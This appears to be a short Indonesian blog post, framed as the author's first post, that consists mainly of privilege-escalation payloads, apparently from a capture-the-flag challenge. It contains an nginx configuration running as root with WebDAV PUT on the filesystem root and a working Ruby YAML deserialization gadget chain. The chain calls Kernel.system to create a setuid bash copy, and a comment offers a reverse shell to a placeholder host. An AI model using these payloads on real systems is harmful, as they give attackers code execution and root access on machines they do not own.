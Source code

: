 ```yaml
---
title: "The First"
description: Short summary of the post.
author: kizuko
date: 2023-12-23 22:00:00 +0700
categories: [random]
tags: [random]
image: 
    path: /assets/img/gojo-satoru.jpg
---
```


## Selamat Datang Cuy!!
ini post-an pertama saya, **K1zuko**.

## Run Docker

```bash
sudo systemctl start docker
docker build .
docker images
docker run -p 1337:1337 {image}
```

## Privilege Escalation
### nginx.conf
```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1338;
                root /;
                autoindex on;

                dav_methods PUT; # with dav_methods
        }
}
```
### Ruby
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/kz; chmod 6777 /tmp/kz # "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve
```

{% include embed/audio.html src='/assets/au/Shinkai.mp3' type='mp3'%}
